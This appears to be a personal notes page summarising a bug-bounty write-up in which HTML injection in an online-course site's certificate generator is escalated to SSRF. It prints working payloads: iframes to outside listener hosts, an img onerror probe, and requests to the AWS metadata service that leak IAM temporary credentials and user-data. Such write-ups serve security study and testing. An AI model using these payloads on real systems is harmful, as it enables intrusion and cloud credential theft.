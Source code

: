 
2025-07-11 22:53

Source: #web 

We have a website which sells online courses. If possible try buying a course & start testing from inside. Try the usual stuff like bypassing payments, accessing locked content, checking for IDORs, and looking for exposed assets.

after completing the course ,the site offered me a certificate generator to download my certificate.

## The Certificate Generator Feature

the page will let you enter:
- Your **name**
- Your **title**
- (Optionally) a quote or message
then you click **“generate”**, and the server gives you back a **PDF or PNG file** with your info on a nice certificate template.

the request body looked something like this:
```json
{  
  "name": "name",  
  "title": "title",  
  "quote": "quote "  
}
```

As always, I started by testing all input parameters for injection. The `title` parameter was the parameter that have no input sanitization.

I replaced it with a simple HTML tag:
```json
"title": "<i>ahmed</i>"
```

Since there was no input sanitization, the HTML payload got rendered in both pdf and image in _italic_ font.

on trying a few more
```json
"title": "<b>Red Team Member</b>"

"title": "<iframe src='https://sub.0xxnum.fun/test'></iframe>"

"title": "<img src=x onerror=alert(1)>"
```

- `<b>` and `<iframe>` **rendered**
- `<script>` and `onerror=` **did not execute**

This meant we had **HTML [[Injection]]**, but **not XSS**.

## Identifying SSRF

next, i wanted to test if this rendering process would actually **fetch resources** from the `iframe`.

so i modified the payload:
```json
"title": "<iframe src='http://sub.tarek.dev/probe'></iframe>"
```
and set up a listener on my end (Burp Collaborator / [[netcat]] / web server).

> I received a DNS and HTTP hit to listener from the IP address of the web application server.

Now i confirmed that **the server was rendering HTML and loading iframe content from our input**.  
> that’s **SSRF via HTML Injection** in the PDF rendering flow.

## Going for [[AWS]] metadata 

Having [[Server-side request forgery (SSRF)]] is one thing, but proving its impact is another. Since the server was making outbound HTTP requests, I suspected it might be hosted on **AWS** — and if so, I wanted to reach the **Instance Metadata Service (IMDS)**.

To begin the attack, I injected a new payload designed to access the metadata endpoint:
```json
"title": "<iframe src='http://169.254.169.254/latest/meta-data/iam/security-credentials/'></iframe>"
```

The generated PDF included the IAM role name, my-app-instance-role, confirming that the server was running on an AWS EC2 instance with IMDSv1 enabled. IMDSv1 is particularly vulnerable because it does not require authentication tokens, unlike IMDSv2.

I then crafted another payload to target the specific IAM role and leak temporary credentials:
```json
"title": "<iframe src='http://169.254.169.254/latest/meta-data/iam/security-credentials/my-app-instance-role'></iframe>"
```

The resulting PDF contained sensitive data, including:
- **AccessKeyId**
- **SecretAccessKey**
- **Token**

these were **temporary AWS credentials,** depending on the permissions tied to that IAM role, this could’ve granted access to other AWS services like S3, DynamoDB, etc.

Besides AWS access keys, see if there is any sensitive data in the user-data IMDS endpoint
```
http://169.254.169.254/latest/user-data
```

the `user-data` section often includes bootstrapping scripts, environment variables, or even hardcoded secrets in plaintext.










### References
[How I Escalated Simple HTML Injection to SSRF via PDF Rendering | by Ahmed Tarek | Jul, 2025 | Medium](https://medium.com/@0x_xnum/how-i-escalated-simple-html-injection-to-ssrf-via-pdf-rendering-682ea94b3194)
